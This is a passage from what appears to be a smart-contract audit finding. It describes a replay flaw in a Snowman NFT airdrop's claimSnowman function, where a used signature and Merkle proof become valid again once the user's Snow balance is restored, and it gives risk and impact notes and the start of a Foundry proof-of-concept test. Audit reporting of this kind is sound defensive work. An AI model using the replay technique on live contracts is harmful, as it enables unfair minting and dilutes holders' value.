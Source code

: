```Solidity
    // ...
}
```

## Risk

**Likelihood**: High

* A legitimate user successfully claims their Snowman NFT using their signature and a valid Merkle proof.

* The same user re-acquires the exact quantity of Snow tokens they staked for the initial claim (e.g., via the `earnSnow()` function in `Snow.sol` after the cooldown, by purchasing more, or receiving a transfer).

* The original signature and Merkle proof (which are now valid again because the user's Snow balance matches the state at the time of original signing and Merkle leaf generation) are re-submitted to the `claimSnowman` function by any party (the user themselves or a third party like "satoshi" in the test).

**Impact**: High

* **Unintended NFT Inflation & Value Dilution:** Users can exploit this to mint more Snowman NFTs than they are entitled to according to the Merkle airdrop rules. This inflates the NFT supply beyond what was intended, potentially devaluing the NFTs for all holders.

* **Compromise of Airdrop Fairness:** The core principle of a Merkle airdrop is to ensure a fair, one-time distribution to a specific set of users with specific allocations. This vulnerability breaks that fairness, allowing some users to receive multiple allocations.

* **Excessive Token Staking/Burning:** The Snow tokens intended to be staked (and effectively burned or locked in the airdrop contract) are processed multiple times for the same original entitlement, leading to more tokens being removed from the user's control and sent to the airdrop contract than designed.

## Proof of Concept

The following test case from `TestSnowmanAirdrop.t.sol` demonstrates the replay attack. Alice successfully claims an NFT, then re-acquires the necessary Snow tokens, and the original claim data is used to claim a second NFT for her.

```Solidity
function testReplayAttackOnClaimSnowman() public {
     
        // --- Alice's First Successful Claim ---
        assertEq(snow.balanceOf(alice), 1, "PRE-REQ: Alice should have 1 wei Snow before first claim");
        uint256 initialAirdropSnowBalance = snow.balanceOf(address(airdrop));
        uint256 initialAliceNftId = nft.getTokenCounter(); // Get token ID before minting for Alice

        vm.prank(alice);
        snow.approve(address(airdrop), 1); // Alice approves 1 wei

        // Generate signature based on Alice's current state (balance of 1 wei)
        bytes32 alDigestOriginal = airdrop.getMessageHash(alice);
        (uint8 alV, bytes32 alR, bytes32 alS) = vm.sign(alKey, alDigestOriginal);

        vm.prank(satoshi); // Satoshi makes the claim for Alice
        airdrop.claimSnowman(alice, AL_PROOF, alV, alR, alS);

        // Assertions for the first successful claim
        assertEq(nft.balanceOf(alice), 1);// Alice should have 1 NFT after first claim
        assertEq(snow.balanceOf(alice), 0); // Alice's Snow balance should be 0 after first claim
        assertTrue(airdrop.getClaimStatus(alice)); // Claim status should be true after successful claim
        assertEq(nft.ownerOf(initialAliceNftId), alice); // Alice should own the newly minted NFT
```